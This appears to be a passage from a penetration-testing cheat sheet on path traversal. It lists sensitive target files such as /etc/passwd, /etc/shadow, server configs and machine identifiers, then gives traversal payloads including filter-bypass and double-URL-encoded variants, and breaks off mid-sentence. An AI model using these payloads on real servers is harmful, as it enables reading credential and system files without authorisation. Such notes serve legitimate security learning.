 		/home/apache/conf/httpd.conf

		/etc/apache2/sites-available/default

		/etc/apache2/vhosts.d/default_vhost.include

		/etc/passwd

		/etc/shadow

		/etc/group

		/etc/security/group

		/etc/security/passwd

		/etc/security/user

		/etc/security/environ

		/etc/security/limits

		/usr/lib/security/mkuser.default

- Get the MAC Address of the target
	- First get the active network interface

			/proc/net/arp

	- Then get the MAC address for that interface

			/sys/class/net/<device id>/address

- Get the target machine ID

		/etc/machine-id

### Directory / File path traversal identification

- Analyse the html code or the requested url and check for suspicious filenames like this:

		filename=1


### Exploit a path traversal vulnerability

We can try these exploits by modifying the html code directly or by intercepting the request with `zap`. We should try both !

- Simple case scenario

		filename=../../../../../etc/passwd
		filename=....//....//....//etc/passwd

- Bypass input sanitizing by encoding the url

		..%252f..%252f..%252fetc/passwd

	`%25` = `%`  
	`%2f` = `/`

- Sometimes the servers looks for a path begining with a specific folder like this:
